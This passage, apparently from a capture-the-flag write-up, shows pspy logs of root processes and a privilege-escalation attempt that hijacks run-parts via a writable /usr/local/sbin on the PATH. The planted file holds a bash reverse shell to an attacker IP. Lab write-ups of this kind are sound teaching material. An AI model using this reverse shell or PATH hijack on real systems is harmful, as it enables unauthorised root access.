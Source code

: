 ```bash
2021/07/15 16:57:01 CMD: UID=0    PID=12624  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:57:02 CMD: UID=0    PID=12625  | sshd: [accepted]
2021/07/15 16:57:02 CMD: UID=0    PID=12626  | sshd: [accepted]  
2021/07/15 16:57:06 CMD: UID=0    PID=12627  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:57:06 CMD: UID=0    PID=12628  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:57:06 CMD: UID=0    PID=12629  | run-parts --lsbsysinit /etc/update-motd.d 
```

This is a lesson to always try things twice before you jump down a rabbit hole.

### Hijacking run-parts

The consistently run commands are the `run-parts` commands:

```bash
2021/07/15 17:14:46 CMD: UID=0    PID=12695  | sshd: jkr [priv]  
2021/07/15 17:14:46 CMD: UID=0    PID=12696  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 17:14:46 CMD: UID=0    PID=12697  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 17:14:46 CMD: UID=0    PID=12698  | 
2021/07/15 17:14:46 CMD: UID=0    PID=12699  | sshd: jkr [priv]  
2021/07/15 17:14:46 CMD: UID=1000 PID=12700  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12701  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12702  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12703  | -bash 
2021/07/15 17:14:46 CMD: UID=1000 PID=12704  | -bash 
2021/07/15 17:15:01 CMD: UID=0    PID=12705  | /usr/sbin/CRON 
2021/07/15 17:15:01 CMD: UID=0    PID=12706  | /usr/sbin/CRON 
2021/07/15 17:15:01 CMD: UID=0    PID=12707  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```

So I tried hijacking this binary instead:

```bash
jkr@writeup:~$ echo 'bash -i >& /dev/tcp/10.10.14.211/9001 0>&1' > /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

The idea behind this exploit is to write a new `run-parts` binary to the `/usr/local/sbin/` directory, which is a higher priority on the path than the usual `run-parts` binary. This means that when the MOTD script triggers our code will be run.

I tried this a few times, watching `pspy` to check if the `echo` command was run as root. One of the issues that I ran into was that the `chmod +x` permissions wouldn't persist after the cleanup script was run, so I had to be fast logging in after modifying it. Another issue was that my replacemenet script didn't seem to trigger unless it had a shebang (which I spotted 0xdf adding after I checked his writeup to make sure I was on the right track).

I tried again, checking the file still existed before I logged in:
